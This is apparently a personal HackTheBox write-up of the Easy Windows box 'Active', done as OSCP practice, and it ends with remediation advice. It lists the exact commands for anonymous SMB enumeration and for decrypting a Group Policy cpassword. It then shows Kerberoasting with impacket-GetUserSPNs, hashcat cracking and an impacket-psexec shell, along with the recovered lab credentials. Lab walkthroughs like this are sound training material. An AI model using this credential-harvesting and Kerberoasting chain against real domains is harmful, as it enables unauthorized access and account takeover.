 ```yaml
---
layout: writeup
title: Active - HackTheBox
date: 2024-07-12 13:32:20 +0300
description: A Writeup of the Active Box from HackTheBox
image: # /assets/images/Active/Active.png
fig-caption: # Add figcaption (optional)
tags: [TJ Null, Windows]
---
```


Today I'm doing a writeup for a [Hack The Box](https://app.hackthebox.com/profile/2013658) box from both TJ Null’s OSCP [lab prep list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#)and LainKusanagi’s [list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). It is called Active, and it is rated Easy by HackTheBox. As usual, we get started with an nmap scan. I'm using my own [custom script](https://github.com/pentestpop/verybasicenum/blob/main/vbnmap.sh) for this which (gives more detail but) shows these open ports:

```
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
49165/tcp open  unknown
```

Looks like we have a domain controller. First things first, I check smbclient to see if I can get access any shares without authentication, and it looks like I can list them at least. `smbclient -L \\\\10.10.10.100\\ -N`:

```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share 
Replication     Disk      
SYSVOL          Disk      Logon server share 
Users           Disk      
```

I can't access Users. I can access Replication, but it doesn't seem to have anything interesting in it. I can't access rpcclient, see anything interesting with unauthenticated enum4linux, or use ldapsearch. Smbmap confirms I can only access the Replication share and only with Read permissions. I check impacket for kerberoastable or asreproastable users, but no dice. I start responder and prepare to dive back into the Replication share and wisely so. I find a file called Groups.xml with this content:

```
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

Note in particular the `name="active.htb\SVC_TGS"` and `cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"`. Could it be a clue? Initially I can't figure out the hash type with nth or crackstation, so I just google "cpassword Groups.xml" and find that it can be decrypted with `gpp-decrypt` to give me a password of `GPPstillStandingStrong2k18`. 

After checking a few things, I find that I am able to now access the Users share through smb. I see that I can grab the user.txt flag, but I don't see anything else interesting here. 

I also access rpcclient and enumdomusers to find only these users:
```
Administrator
Guest
krbtgt
SVC_TGS
```

At this point I decided to try a few different impacket options including asreproasting and kerberoasting. I am able to pull a hash for the Administrator user using impacket `impacket-GetUserSPNs active.htb/'svc_tgs':'GPPstillStandingStrong2k18' -dc-ip 10.10.10.100 -request`:

![Active2.png](/assets/images/Active/Active2.png){: .responsive-image}

It takes a while but eventually it cracks through `hashcat -m 13100 Administrator.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force` which gives us: `Administrator:Ticketmaster1968`

After that I simply use impacket-psexec to get a shell on the machine and grab the flags. 

![Active3.png](/assets/images/Active/Active3.png){: .responsive-image}

### Lessons Learned
This was a relatively simple box. I was briefly unsure how to deal with the GPP password, but it was cracked relatively easily with hashcat and `gpp-decrypt`. 

### Remediation Steps
- Don't allow the Replication share to be accessed without authentication. 
- If possible remove the hardcoded password from `Groups.xml` or remove it from the share. 
- Enforce stronger password policies as both passwords were cracked easily. 
- The Administrator password was accessible remotely through `GetUserSPNs`. Access to pull them should be restricted based on the principle of least privilege, so that should maybe be removed from the SVC_TGS user. 
- Avoid using privileged accounts for users requiring SPNs. 